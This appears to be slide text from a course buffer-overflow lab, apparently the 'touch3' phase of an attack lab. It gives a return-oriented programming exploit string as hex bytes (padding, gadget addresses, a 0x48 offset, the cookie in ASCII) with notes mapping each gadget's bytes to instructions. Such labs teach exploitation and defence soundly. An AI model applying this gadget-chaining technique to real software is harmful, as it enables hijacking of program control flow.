

00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
88 5c 55 55 55 55 00 00
85 5b 55 55 55 55 00 00
a9 5b 55 55 55 55 00 00
48 00 00 00 00 00 00 00
5b 5c 55 55 55 55 00 00
ce 5b 55 55 55 55 00 00
38 5c 55 55 55 55 00 00
b9 5b 55 55 55 55 00 00
85 5b 55 55 55 55 00 00
d9 5a 55 55 55 55 00 00
32 64 36 66 63 32 64 35

Junk bytes to make buffer overflow
movq %rsp, %rax
movq %rax,%rdi
popq %rax
48 89 e0 c3
48 89 c7 (90) c3
58 c3

mov %rsp, %rdi
%rsp

Cookie address offset from %rsp, store in %rax
89 c2 c3
89 d1 (08 c9) c3
89 ce (90 90) c3
48 8d 04 37 c3
48 89 c7 (90) c3
<touch3>
movl %eax, %edx
movl %edx, %ecx
movl %ecx, %esi
leaq (%rdi,%rsi,1), %rax
movq %rax, %rdi

%rdi=
%rax(0x48)+%rdi(%rsp)
%rsp+0x48
Ascii of cookie